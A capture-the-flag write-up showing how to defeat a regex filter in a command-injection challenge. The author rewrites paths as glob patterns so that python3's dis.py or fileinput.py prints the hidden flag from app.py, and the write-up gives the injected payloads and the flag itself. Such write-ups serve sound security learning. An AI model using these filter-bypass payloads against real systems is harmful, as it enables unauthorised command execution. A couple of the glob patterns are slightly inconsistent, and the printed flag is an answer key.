






# Duck Nettool Revenge - Writeup

The input is filtered by the following regex, which only allows numbers and a few characters such as `?`, `.`, `;`, `/`, spaces, and `i`:

```python
ALLOWED_TARGET_RE = re.compile(r"^(?!.* \.)(?!.*\. )[i0-9.;?/ ]+$")
```

For local debugging, I removed this regex first. After doing that, it became clear that the challenge was vulnerable to command injection.

After re-enabling the regex, the next step was to find a way to bypass it. This website was very helpful for converting paths into glob patterns:

https://0xv1n.github.io/LOLGlobs/globs/linux/python3/

From the Dockerfile/container, we can see that `python3` is available at:

```text
/usr/local/bin/python3
```

With globbing, this path can be written as:

```text
/???/?????/???/??????3
```



However, simply running `python3 app.py` or `python3 flag.py` does not help. Skipping the misleading parts, we can see that the flag is hidden inside the source of `app.py`. But running `python3 app.py` will not print comments or unused strings.



Since the only useful binary we can call is `python3`, we need to find a Python script that can be executed like this:

```bash
python3 something.py app.py
```

The obvious candidates are not just `app.py` and `flag.py`. Python also ships with many standard library files in:

```text
/usr/local/lib/python3.11
```

With globbing, this becomes:

```text
/???/?????/??/??????3.11
```



So the goal is to find a standard library Python file that accepts a filename as an argument and prints or reveals the contents of `app.py`.

## Intended Solution

In Python, normal comments are not included in bytecode:

```python
# This comment will not appear in disassembly
```

However, string literals can appear as constants:

```python
"""
This string can appear in disassembly
"""
```


Therefore, we can use Python’s built-in `dis.py` module to disassemble `app.py` and reveal the hidden string containing the flag.

The full command is:

```bash
/usr/local/bin/python3 /usr/local/lib/python3.11/dis.py app.py
```

Converted into a regex-compatible glob payload, it becomes:

```text
/???/?????/???/??????3 /???/?????/???/??????3.11/?i?.?? ???.??
```



This is not the only possible solution. Some players also found other useful standard library scripts, such as `fileinput.py`, which can be matched with a glob like:

```text
?i??i?????.??
/usr/local/bin/python3 /usr/local/lib/python3.11/fileinput.py app.py
/???/?????/???/??????3 /???/?????/???/??????3.11/?i??i????.?? ???.??
```



So the main idea is to be creative with Python’s standard library and glob patterns.

Flag:

```text
v1t{br0_th15_15_duck}
```
